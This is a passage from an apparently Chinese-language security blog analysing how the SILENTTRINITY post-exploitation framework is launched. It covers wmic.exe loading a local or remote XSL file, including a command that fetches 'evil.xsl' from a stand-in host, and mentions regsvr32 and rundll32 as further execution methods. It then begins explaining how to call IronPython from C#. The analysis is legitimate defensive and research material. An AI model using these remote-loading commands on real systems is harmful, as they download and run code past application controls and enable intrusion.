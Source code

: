 [《利用Assembly Load & LoadFile绕过Applocker的分析总结》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8Assembly-Load-&-LoadFile%E7%BB%95%E8%BF%87Applocker%E7%9A%84%E5%88%86%E6%9E%90%E6%80%BB%E7%BB%93/)

#### 3. wmic

启动方式：

```
C:\Windows\System32\wbem\WMIC.exe os get /format:"evil.xsl"
```

或者

```
C:\Windows\System32\wbem\WMIC.exe os get /format:"https://example.com/evil.xsl"
```

流程：

`wmic.exe`->`.xsl`->`javascript`

通过wmic.exe加载wmic.xsl，wmic.xsl可以放在本地，也可以放在远程服务器

同样是将加密字符串做base64解码，解密出SILENTTRINITY，最终在内存中加载(JavaScript实现)


这个利用方法我在之前的文章有过利用分析：

[《利用wmic调用xsl文件的分析与利用》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8wmic%E8%B0%83%E7%94%A8xsl%E6%96%87%E4%BB%B6%E7%9A%84%E5%88%86%E6%9E%90%E4%B8%8E%E5%88%A9%E7%94%A8/)

#### 4. 其他可供利用的方法

SILENTTRINITY未包括，此处作为扩展，例如：

- regsvr32.exe，《Code Execution of Regsvr32.exe》
- rundll32.exe，[《关于利用rundll32执行程序的分析》](https://3gstudent.github.io/3gstudent.github.io/%E5%85%B3%E4%BA%8E%E5%88%A9%E7%94%A8rundll32%E6%89%A7%E8%A1%8C%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%88%86%E6%9E%90/)



## 0x04 C#利用IronPython调用Python的方法
---

需要使用IronPython，参考资料：

https://ironpython.net/

本节介绍一些基本用法，有助于进一步扩展SILENTTRINITY的功能

### 1、常用的基本脚本

下载安装IronPython：

https://github.com/IronLanguages/ironpython2/tree/master/Src/IronPythonCompiler

开发工具： VS2015

新建C#工程，添加引用：
